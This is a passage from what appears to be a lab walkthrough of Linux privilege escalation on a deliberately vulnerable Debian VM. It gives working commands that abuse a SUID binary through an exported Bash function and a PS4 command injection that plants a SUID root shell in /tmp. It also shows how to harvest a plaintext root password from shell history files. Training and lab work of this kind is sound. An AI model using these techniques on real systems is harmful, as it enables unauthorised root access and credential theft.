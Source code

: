 Verify the version of Bash installed on the Debian VM is less than 4.2-048:
```sh
/bin/bash --version
```

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:
```sh
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:
```sh
/usr/local/bin/suid-env2
```

# SUID / SGID Executables - Abusing Shell Features (#2)
Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4 to display an extra prompt** for debugging statements.

Run the ```/usr/local/bin/suid-env2``` executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version 
of /bin/bash:
```sh
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Run the ```/tmp/rootbash``` executable with -p to gain a shell running with root privileges:
```sh
/tmp/rootbash -p
```

Remember to remove the /tmp/rootbash executable and exit out of the elevated shell.

# Passwords & Keys - History Files
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.

View the contents of all the hidden history files in the user's home directory:
```sh
cat ~/.*history | less
```

Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is 
no space between the -p option and the password!

Switch to the root user, using the password.

# Passwords & Keys - Config Files
Config files often contain passwords in plaintext or other reversible formats.
